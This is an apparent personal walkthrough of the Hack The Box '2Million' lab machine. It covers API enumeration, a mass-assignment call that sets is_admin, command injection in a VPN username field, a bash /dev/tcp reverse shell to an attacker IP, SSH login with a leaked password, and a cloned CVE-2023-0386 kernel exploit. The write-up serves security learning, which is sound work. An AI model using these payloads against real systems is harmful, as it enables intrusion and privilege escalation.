



# Enumeration
## Nmap Scan

I started by running a basic Nmap scan to enumerate open ports and services on the target machine (`10.10.11.221`):

`nmap -sC -sV 10.10.11.221`


From Nmap scan it shows that the target machine 10.10.11.221 has two open ports: 22 (SSH) running OpenSSH 8.9p1 on Ubuntu, and 80 (HTTP) running an nginx web server. The HTTP service hosts a basic HTB landing page and sets a PHP session cookie without the httponly flag, which could be a minor security issue. This suggests the site might be using PHP. Next steps include visiting the website, checking the source code, and running a directory brute-force scan to find hidden paths or files. 

Since there is a HTTP service hosted on port 80. 
let's see the webpage. To access the webpage, 
let's add the `Ip address and domain` of the target machine.

`sudo nano /etc/hosts`


The website has a login and join option. When we click "Join" and then "Join HTB", it takes us to the `/invite` page.


Lets take a look at the page's source code we see the following.

``` bash
<!-- scripts -->
    <script src="/js/htb-frontend.min.js"></script>
    <script defer src="/js/inviteapi.min.js"></script>
    <script defer>
        $(document).ready(function() {
            $('#verifyForm').submit(function(e) {
                e.preventDefault();

                var code = $('#code').val();
                var formData = { "code": code };

                $.ajax({
                    type: "POST",
                    dataType: "json",
                    data: formData,
                    url: '/api/v1/invite/verify',
                    success: function(response) {
                        if (response[0] === 200 && response.success === 1 && response.data.message === "Invite code is valid!") {
                            // Store the invite code in localStorage
                            localStorage.setItem('inviteCode', code);

                            window.location.href = '/register';
                        } else {
                            alert("Invalid invite code. Please try again.");
                        }
                    },
                    error: function(response) {
                        alert("An error occurred. Please try again.");
                    }
                });
            });
        });
    </script>
```

So, the function of the code works like, the second function runs when the submit button is clicked. It sends a POST request to /api/v1/invite/verify to check if the code entered is valid. There's also a script called inviteapi.min.js being loaded. Let's check what it does.

There is this code, lets see if `ChatGTP` could decode this code.

``` bash
eval(function(p,a,c,k,e,d){e=function(c){return c.toString(36)};if(!''.replace(/^/,String)){while(c--){d[c.toString(a)]=k[c]||c.toString(a)}k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1};while(c--){if(k[c]){p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c])}}return p}('1 i(4){h 8={"4":4};$.9({a:"7",5:"6",g:8,b:\'/d/e/n\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}1 j(){$.9({a:"7",5:"6",b:\'/d/e/k/l/m\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}',24,24,'response|function|log|console|code|dataType|json|POST|formData|ajax|type|url|success|api/v1|invite|error|data|var|verifyInviteCode|makeInviteCode|how|to|generate|verify'.split('|'),0,{}))
```

According to ChatGPT.


``` bash 
function verifyInviteCode(code) {
  var formData = { "code": code };
  $.ajax({
    type: "POST",
    dataType: "json",
    data: formData,
    url: '/api/v1/invite/verify',
    success: function(response) {
      console.log(response);
    },
    error: function(response) {
      console.log(response);
    }
  });
}

function makeInviteCode() {
  $.ajax({
    type: "POST",
    dataType: "json",
    url: '/api/v1/invite/how/to/generate',
    success: function(response) {
      console.log(response);
    },
    error: function(response) {
      console.log(response);
    }
  });
}
```

So, this is the decoded code.


This endpoint seems very interesting, so in order to
access it we can either call this JavaScript function from our browser's console, or use cURL. We will go with
the latter.

`curl -sX POST http://2million.htb/api/v1/invite/how/to/generate | jq`


Let's give chatGTP to decrypt the data.

``` bash 
Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr
```
```bash
In order to generate the invite code, make a POST request to /api/v1/invite/generate
```

So, to make a POST request, lets use this command:
`curl -sX POST http://2million.htb/api/v1/invite/generate | jq
`


This time, it seems to be encoded instead of encrypted with what seems to be Base64. Let's decode it in terminal.


So, lets use the code and get in the registration form page. 


Hooray! It works. Let's register with the username anything you like, for me I am using: username: `Train`, email `train@2million.htb` and random password. Remember the password, as after we register, we are redirected to `/login`.


After logging in we are redirected to `/home`


Inside the website only few pages work. One is Access page, 


So, the Access page allows users to Download and Regenerate their VPN file to be able to access the HTB infrastructure. 
Lets see what does the `Connection Pack` do using `BurpSuite`.


``` bash 
GET /api/v1/user/vpn/generate HTTP/1.1
Host: 2million.htb
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://2million.htb/home/access
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=7cggcbut65t0c0m1g8sp3vjhev
Connection: keep-alive
```
Upon clicking on the button a GET request is sent out to /api/v1/users/vpn/generate and in return the
VPN file for our current user is downloaded.

Lets try requesting the URL /api to see if anything is returned.

`curl -sv 2mmillion.htb/api`


So, we are getting `unauthorized` statue code. Lets try providing the website with the PHP session cookie which we got from the BurpSuite as seen previously.

`curl -sv 2million.htb/api --cookie "PHPSESSID=7cggcbut65t0c0m1g8sp3vjhev" | jq`



Now, let's request `/api/v1` to see if any endpoints are listed.

`curl 2million.htb/api/v1 --cookie "PHPSESSID=7cggcbut65t0c0m1g8sp3vjhev" | jq`


We get a list of endpoints that are available in the API. Some of which is being the admin specific endpoints. 
As a test we can run the `/admin/auth` endpoint to check if we are an admin user.

`curl http://2million.htb/api/v1/admin/auth --cookie "PHPSESSID=7cggcbut65t0c0m1g8sp3vjhev" | jq`


As expected, we are not the admin user. Let's try the `/admin/vpn/generate` endpoint by switching our request to POST.

`curl -sv -X POST http://2million.htb/api/v1/admin/auth --cookie "PHPSESSID=7cggcbut65t0c0m1g8sp3vjhev"`


We are getting 401 Unauthorized error. Lets try the final administrative endpoint, `/admin/settings/update` using the request needs to be a PUT as shown in the output.


`curl -v -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=7cggcbut65t0c0m1g8sp3vjhev" | jq`


This time, we are getting API replies with `Invalid content type`. 
Lets set the `Content-Type` header to `JSON` and try again, as we know that API's use JSON for sending and receiving data.

`curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=7cggcbut65t0c0m1g8sp3vjhev" --header "Content-Type: application/json" | jq`


Now it says email parameter is missing. Let's add this as well and try setting the email to be `is_admin` as `true`:

* Note: Here, at some point the PHP session id would be different, don't get confused by that, it is because I paused and continued doing the machine, whereby the ID changes when the network connection is lost. 

`curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=g4umtauona3ic7bipu5tf0l1ke" --header "Content-Type: application/json" --data '{"email":"train@2million.htb", "is_admin": '1'}' | jq`

 [alt text](HTBImage/2million)

The above command seems to be successful as my information is returned and the `is_admin` variable is 1. 

Let's verify this by accessing the `/admin/auth` endpoint that we saw earlier.


So, now it is shown that I am indeed an admin now.

## Foothold

Let's check out the /admin/vpn/generate URL now that we have sufficient permissions.At this point we can infer that this is the username of the user that the VPN will be generated for, so let's attempt to input a random username.


After running the previous command, we noticed that a VPN configuration file was created for the user named "test" and its content was displayed. If this VPN file is being created using PHP functions like exec or system, and if there's little or no input sanitization—especially since it's an admin-only feature—there's a chance we can exploit it. Specifically, we might be able to inject commands through the username field. To test this theory, we can try inserting a command like ;id; after the username to see if we can get the server to execute it and potentially gain remote command execution.


The command is successful and we gain command execution. Let's start a Netcat listener to catch a shell.

`nc -lvp 1234`

We can then get a shell with the following payload.

`bash -i >& /dev/tcp/10.10.14.4/1234 0>&1`

We encode the payload in Base64 and add it to the following command. To, encode the base64 I used `cyberchef`.


## Lateral Movement

Enumeration of the web directory reveals a file called .env which contains database credentials for a user
called admin.


The /etc/passwd file reveals that there is indeed a user on the system called admin.

`cat /etc/passwd`


Owed to password re-use we can login as admin over SSH with SuperDuperPass123

`ssh admin@2million.htb`


Now, lets find the userflag.


So, the userflag was inside the `user.txt` file

## Privilege Escalation

Enumeration of the current user's mails in /var/mail reveals a file called admin , which contains all the emails for our current user. Let's read it.


An email from ch4p warns the admin about recent serious kernel exploits, specifically mentioning OverlayFS/FUSE. A quick search points to [CVE-2023-0386](https://nvd.nist.gov/vuln/detail/CVE-2023-0386), affecting certain Linux kernel versions. Checking the system shows it's running kernel version 5.15.70, which is confirmed to be vulnerable.

Enumeration of the current kernel version reveals that the box is using 5.15.70.


We can also see that the box is currently on the Jammy release.

The affected kernel versions for jammy go up to 5.15.0-70.77 and as seen previously the box is using
5.15.70 so it is a good idea to test if it is vulnerable.
There are multiple exploits available online, one of
which is [this](https://github.com/xkaneiki/CVE-2023-0386) one on GitHub.

`git clone https://github.com/xkaneiki/CVE-2023-0386`



Then, zip the file;


Then, lets upload it to the admin using `scp`:



On the box, navigate to /tmp and unzip the contents of cve.zip .


As per the instructions on the GitHub page, enter the CVE-2023-0386 directory and compile the code


# Learnings from this machine

In this part of the 2Million HTB machine, I learned how to analyze web applications for hidden APIs, decode obfuscated JavaScript, and exploit misconfigured endpoints to escalate privileges. I gained initial access through command injection, reused leaked credentials to pivot via SSH, and identified a kernel vulnerability (CVE-2023-0386) for privilege escalation by reading system mails and checking kernel version.

# Reference2023
*2million.pdf*. (2023). Official HTB walkthrough.

Kali linux tools, BurpSuite

### Tools used:

- Nmap
- BurpSuite
- smp
- cyberchef
- chatgpt

